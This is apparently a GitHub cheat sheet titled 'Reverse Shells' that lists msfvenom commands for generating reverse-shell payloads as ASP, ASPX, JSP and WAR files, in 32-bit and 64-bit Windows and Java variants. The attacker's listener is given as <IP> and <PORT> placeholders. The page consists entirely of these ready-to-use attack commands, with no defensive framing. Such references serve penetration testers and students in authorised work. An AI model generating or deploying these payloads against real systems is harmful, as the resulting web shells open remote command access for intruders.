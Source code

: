 # Reverse Shells

## 01 - ASP

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp
```

## 02 - ASPX

1. x86 (32-bit) Payloads

```
$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86.aspx
```

2. x86_64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o shell-x86-64.aspx
```

## 03 - JSP

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.jsp
```

## 04 - WAR

```
$ msfvenom -p java/jsp_shell_reverse_tcp lhost=<IP> lport=<PORT> -f raw -o shell.war
```